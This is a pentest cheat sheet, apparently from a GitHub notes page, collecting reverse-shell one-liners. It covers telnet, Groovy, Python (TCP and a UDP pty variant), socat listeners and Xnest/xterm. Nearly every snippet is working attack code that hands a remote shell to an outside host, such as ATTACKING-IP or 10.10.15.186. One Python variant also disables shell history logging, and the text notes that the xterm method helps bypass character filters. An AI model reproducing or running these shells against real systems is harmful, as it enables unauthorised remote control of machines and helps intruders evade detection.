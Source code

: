 # Reverse/Bind Shells

### Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### Groovy

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

This was sourced from a gist user [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

### Python

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sometimes however, you may need to use an alternate protocol with python, and while the above is a good one-liner it's a bit difficult to work with.  I'd recommend using pty, and an excellent source for pty-webshells is [https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells).

```py
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

These shells can't be captured with netcat however, you'll have to use socat

```bash
socat file:`tty`,echo=0,raw udp-listen:1234
```

### Xterm

For this you'll need xnest installed and a remote xterm client available.  You can set up the listener on your own listener server using one of the following two commands:

```
Xnest :3 -ac -once -query localhost
Xnest :3 -listen tcp
```

This opens a listener on port 6003, but you can choose any alternative to `:3`

The access control list on your server also needs to be amended to allow access from your machine.

```
xhost +<remote ip>
```

On the remote machine you can then run:

```
xterm -display <server ip>:3
```

From this you'll receive a reverse shell.  I've found this useful to bypass certain character filters and if no other option presents itself.

